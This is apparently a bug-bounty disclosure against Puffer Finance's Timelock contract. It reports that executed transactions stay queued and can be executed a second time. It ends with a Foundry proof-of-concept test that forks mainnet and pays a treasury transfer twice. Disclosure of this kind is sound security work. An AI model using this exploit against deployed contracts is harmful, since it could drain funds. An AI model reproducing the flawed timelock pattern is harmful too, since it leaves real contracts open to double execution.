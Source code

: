 
# Double spending or double execution of transaction is possible by passing delay period of Timelock contract

Submitted on Mar 3rd 2024 at 20:33:14 UTC by @codesentry for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28971

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA#code

Impacts:
- Protocol insolvency
- Permanent freezing of unclaimed yield
- Temporary freezing of funds for at least 1 hour

## Description
## Brief/Intro
COMMUNITY_MULTISIG wallet can execute the transaction queued by OPERATIONS_MULTISIG . Transaction is not removed from queue when COMMUNITY_MULTISIG execute it.  In this case OPERATIONS_MULTISIG can execute same transaction again. This is a sever bug and can cause double spending,  double execution of transaction. Even OPERATIONS_MULTISIG can execute tx without waiting for delay period to pass. All scenario explained in ## Impact Details section.

## Vulnerability Details
This bug is in `executeTransaction()` method of TimeLock contract.   OPERATIONS_MULTISIG queue a transaction and COMMUNITY_MULTISIG execute it by calling below method 

```executeTransaction(target, callData,operationId)```

Whenever COMMUNITY_MULTISIG execute it, it does not remove it from queue. This tx exist in queue even it has been executed by COMMUNITY_MULTISIG hence OPERATIONS_MULTISIG can execute it again. 

Steps
1.  OPERATIONS_MULTISIG calls 
``` timelock.queueTransaction(target, callData, 1);```

2. Time delay passed but actually transaction executed by COMMUNITY_MULTISIG. 
COMMUNITY_MULTISIG calls 
 timelock.executeTransaction(target, callData, 1);

3. OPERATIONS_MULTISIG is able to call same tx again even thought it has already been executed by COMMUNITY_MULTISIG.  
    OPERATIONS_MULTISIG calls below method successfully. 
timelock.executeTransaction(target, callData, 1);

This result in calling timelock.executeTransaction(target, callData, 1) two times. 

## Impact Details
Below are some scenario that explains the impact.  There are can be multiple scenarios exists but I writing two examples below

Scenario1: 
1) OPERATIONS_MULTISIG queue a transaction to upgrade implementation contract of PufferDepositor to implV2.  This upgrade is being done to fix a bug.  
2) After tx was queued, community found that bug is sever hence upgrade the proxy contract immediately by calling  timelock.executeTransaction(target, callData, 1) by COMMUNITY_MULTISIG. Now proxy's implementation contract is implV2. 
3) After few days community found that implV2 also has another sever bug hence it upgrade to implV3 by executing timelock.executeTransaction(target, callData, 2) immediately.
4) Previous queued transaction was not removed from queue.  OPERATIONS_MULTISIG calls timelock.executeTransaction(target, callData, 1) and upgrade proxy to old version which has some bug.  
Implication of this scenario is that proxy is upgraded to old version by OPERATIONS_MULTISIG without waiting for delay period. 

Scenario 2: 
Timelock contract is owner of some treasury contract.  Treasury contract has some ERC20 balance. 
1) OPERATIONS_MULTISIG queue a transaction to transfer 10 token to Alice for operationId =1 . 
2) COMMUNITY_MULTISIG execute this transaction and transfers 10 token to Alice.  3) OPERATIONS_MULTISIG execute same tx and transfer 10 more token because tx is not removed from queue.  
Net result is loss of asset or double spending of treasury asset. 


Upgrade from implV3 to implV2 is done with no waiting or delay period. This can have serious implication for users as proxy upgraded to older version that too without wait. 

Overall timelock contract has sever bug in executeTransaction(). Ideally this should remove the queued tx if already executed.

## References
Add any relevant links to documentation or code



## Proof of Concept
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import {Test} from "forge-std/Test.sol";
import {IERC20} from "openzeppelin/token/ERC20/IERC20.sol";
import {Ownable} from "openzeppelin/access/Ownable.sol";

interface ITimeLock {
    function executeTransaction(
        address target,
        bytes calldata callData,
        uint256 operationId
    ) external returns (bool success, bytes memory returnData);

    function queueTransaction(
        address target,
        bytes memory callData,
        uint256 operationId
    ) external returns (bytes32);

    function delay() external view returns (uint256);

    function COMMUNITY_MULTISIG() external view returns (address);

    function OPERATIONS_MULTISIG() external view returns (address);
}

contract Treasury is Ownable {
    constructor(address _initialOwner) Ownable(_initialOwner) {}

    function transferAsset(
        IERC20 _token,
        address _recipient,
        uint256 _amount
    ) external returns (bool) {
        return _token.transfer(_recipient, _amount);
    }
}

contract TimeLockBugPOC is Test {
    // This is the keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1.
    bytes32 constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    ITimeLock public timelock;

    Treasury public treasury;

    address alice = makeAddr("alice");

    IERC20 CVX = IERC20(0x4e3FBD56CD56c3e72c1403e103b45Db9da5B9D2B);

    address COMMUNITY_MULTISIG;
    address OPERATIONS_MULTISIG;

    function setUp() public virtual {
        vm.createSelectFork(vm.envString("NODE_URL"));
        timelock = ITimeLock(0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA);

        treasury = new Treasury(address(timelock));

        deal(address(CVX), address(treasury), 200e18);

        COMMUNITY_MULTISIG = timelock.COMMUNITY_MULTISIG();
        OPERATIONS_MULTISIG = timelock.OPERATIONS_MULTISIG();

        vm.label(COMMUNITY_MULTISIG, "COMMUNITY_MULTISIG");
        vm.label(OPERATIONS_MULTISIG, "OPERATIONS_MULTISIG");
    }

    function test_timelockBug() public {
        // step1: OPERATIONS_MULTISIG queue transaction to transfer 10 cvx
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        uint256 amountToTransfer = 10e18;
        bytes memory callData = abi.encodeCall(
            treasury.transferAsset,
            (CVX, alice, amountToTransfer)
        );
        timelock.queueTransaction(address(treasury), callData, 1);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        vm.warp(lockedUntil + 1);
        vm.stopPrank();

        // step2: Community multisig execute the queued transaction
        vm.startPrank(timelock.COMMUNITY_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);
        assertEq(CVX.balanceOf(alice), amountToTransfer);

        // step3: Operation multisig execute queued transaction once again and Alice received 10 cvx 2 times
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);

        assertEq(CVX.balanceOf(alice), 2 * amountToTransfer);
        vm.stopPrank();
    }
}

```
